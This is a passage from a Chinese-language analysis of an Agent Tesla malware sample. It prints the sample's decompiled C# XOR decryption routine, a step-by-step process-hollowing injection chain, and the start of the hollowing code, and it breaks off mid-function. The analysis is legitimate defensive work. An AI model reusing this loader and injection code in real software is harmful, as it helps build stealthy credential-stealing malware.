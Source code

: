 ```c#
———————————————————————————————————————————————

    public static byte[] @decrypt2(byte[] byte_0)
    {
        checked
        {
            byte[] array = new byte[byte_0.Length - 16 - 1 + 1];
            Buffer.BlockCopy(byte_0, 16, array, 0, array.Length);    //赋值一层解密后16字节后的内容到新数组中，前16字节作为二层解密的密钥
            int num = array.Length - 1;
            for (int i = 0; i <= num; i++)
            {
                byte[] array2 = array;
                int num2 = i;
                array2[num2] ^= byte_0[i % 16];        //与前 16 字节对应位做异或，得到最终解密 PE 格式文件。
            }
            return array;
        }
    }
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-8f7095ba004f30c2def1c066b7a09b1eeed3335e.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d52fc89d0c872568beac957b0cdf9655807c2908.png)

### 进程缕空操作：（填充最后内层窃密文件）

获取到当前路径和解密后的 PE byte流作为参数传入后进行进程缕空操作，在以自身创建一个进程后通过挖空自己填充解密后的 PE 文件。

步骤参考：[技术讨论 | Windows 10进程镂空技术（木马免杀）](https://www.freebuf.com/articles/system/173532.html)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-fb70213176bf9a13b78341bed2fde3e96f1a9bcc.png)

#### 应用分析：

创建一个挂起的进程 ReZerOV4.exe-&gt;读取线程上下文-&gt;读取进程内存-&gt;读取 ReZerOV4.exe原始入口点-&gt;卸载ReZerOV4.exe占用的内存-&gt;将解密的 ZCUhHwDjwecpIVdhzzGLaKT.exe 二进制放入内存缓冲区-&gt;在 ReZerOV4.exe 进程中分配一个内存空间-&gt;将 ZCUhHwDjwecpIVdhzzGLaKT.exe 注入到 ReZerOV4.exe 的进程里-&gt;修改 ReZerOV4.exe 的区段 -&gt; 修改 ReZerOV4.exe 的入口点 -&gt; 恢复主线程 -&gt; 成功注入。

```c#
    private static bool smethod_9(string string_9, byte[] byte_1, bool bool_0)
    {
        int num = 0;
        string string_10 = "\"{path}\"";
        Class3.@STARTUPINFOA STARTUPINFOA = default(Class3.@STARTUPINFOA);
        Class3.@PROCESS_INFORMATION PROCESS_INFORMATION = default(Class3.@PROCESS_INFORMATION);        //这里定义的两个结构体根据后面 CreateProcess 调用可以知道分别对应 STARTUPINFOA 和 PROCESS_INFORMATION 结构体。分别是对新进程要设置扩展属性和接收有关新进程的标识信息。
        @STARTUPINFOA.cb = Convert.ToUInt32(Marshal.SizeOf(typeof(Class3.@STARTUPINFOA)));    //STARTUPINFOA 第一个字段就是结构体大小
        try
        {
            if (!Class3.CreateProcess(string_9, string_10, IntPtr.Zero, IntPtr.Zero, false, 4U, IntPtr.Zero, null, ref @STARTUPINFOA, ref @PROCESS_INFORMATION))        
//string_9="C:\Users\xxx\Desktop\Agenttesla病毒文件\ReZerOV4-cleaned.exe"    指定要执行的路径
//string_10="\"{path}\""    指定传入参数
//4U，CREATE_SUSPENDED，0x00000004，新进程的主线程在挂起状态下创建，并且在调用 ResumeThread 函数之前不会运行。
//ref @STARTUPINFOA, ref @PROCESS_INFORMATION分别是对新进程要设置扩展属性和接收有关新进程的标识信息。
//其它都是NULL
            {
                throw new Exception();
            }
```